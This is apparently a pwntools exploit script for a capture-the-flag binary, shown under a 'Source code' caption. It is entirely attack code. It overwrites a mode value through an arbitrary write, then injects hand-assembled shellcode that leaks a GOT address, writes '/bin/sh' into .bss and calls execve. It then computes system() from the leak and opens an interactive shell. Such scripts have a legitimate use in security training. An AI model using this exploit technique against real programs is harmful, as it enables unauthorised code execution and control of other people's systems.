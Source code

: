 ```

#context.log_level='debug'
#gdb.attach(p)

read_plt = e.plt['read']
read_got = e.got['exit']
bss = e.bss()

log.info(hex(read_got))

p.sendlineafter('> ', '3')
p.sendlineafter('addr: ', '6299792') # mode = 0x602090
p.sendlineafter('value: ', '0')

p.sendlineafter('> ', '1')

# write(1, read_got, 0x8);
payload = asm("mov rax, 1")
payload += asm("mov rdi, 1")
payload += asm("mov rsi, 0x602040")
payload += asm("mov rdx, 0x8") 
payload += asm("syscall")

# read(0, bss, 0x8);
payload += asm("mov rax, 0")
payload += asm("mov rdi, 0")
payload += asm("mov rsi, 0x6020c0")
payload += asm("mov rdx, 0x8") 
payload += asm("syscall")

# read(0, read_got, 0x8);
payload += asm("mov rax, 0")
payload += asm("mov rdi, 0")
payload += asm("mov rsi, 0x602078")
payload += asm("mov rdx, 0x8") 
payload += asm("syscall")

# execve("/bin/sh\x00")
payload += asm("mov rax, 59")
payload += asm("mov rdi, 0x6020c0")
payload += asm("mov rsi, 0")
payload += asm("mov rdx, 0")
payload += asm("syscall")
payload += asm("ret")

p.sendline(payload)

p.sendlineafter('> ', '2')

leak = u64(p.recv(8))
log.info(hex(leak))
system = leak-0x2aae0

p.send('/bin/sh\x00')
p.send(p64(system))

p.interactive()

```
